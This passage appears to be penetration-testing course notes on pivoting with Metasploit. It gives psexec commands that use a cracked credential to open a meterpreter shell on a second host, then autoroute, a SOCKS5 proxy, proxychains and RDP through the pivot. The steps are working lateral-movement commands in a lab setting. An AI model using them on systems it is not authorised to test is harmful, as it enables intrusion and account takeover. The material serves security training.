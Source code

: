 Let's target SMB and RDP using the pivot host VM 01. Fe'll attempt to use the psexec1 module to get access on the second target as user luiza. We previously retrieved the NTLM hash via Kiwi. Let's assume we could successfully crack the NTLM hash and the clear-text password is BoccieDearAeroMeow1!. For psexec to succeed, luiza has to be a local administrator on the second machine. Let's assume we confirmed this through information gathering techniques.

```console
> use exploit/windows/smb/psexec
> set SMBUser luiza
> set SMBPass "BoccieDearAeroMeow1!"
> set RHOSTS 172.16.134.200
> set payload windows/x64/meterpreter/bind_tcp
> set LPORT 8000
> run
```

We have now successfully used the psexec module to obtain a meterpreter shell on the second target via the first pivot machine!

Alternatively to adding routes manually, we can use the autoroute post-exploitation module to set up pivot routes through an existing Meterpreter session automatically. To do this, first remove the route we set manually. Let's terminate the Meterpreter session created through the psexec module and remove all routes with route flush

```console
> use multi/manage/autoroute
> show options
> sessions -l
  4         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.45.198:443 -> 192.168.249.223:62142 (192.168.249.223)

> set session 4

> run
[+] Route added to subnet 172.16.134.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.249.0/255.255.255.0 from host's routing table.
```

We could use the psexec module like we did before, or we could combine routes with the server/socks_proxy auxiliary module to configure a SOCKS2 proxy. This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default. We set the option SRVHOST to 127.0.0.1 and VERSION to 5 in order to use SOCKS version 5

```console
> use auxiliary/server/socks_proxy
> show options
> set SRVHOST 127.0.0.1
> set VERSION 5
> run -j

// update proxychains conf
$ tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080

// run proxychains with xfreerdp

$ sudo proxychains xfreerdp /v:172.16.134.200 /u:luiza
```
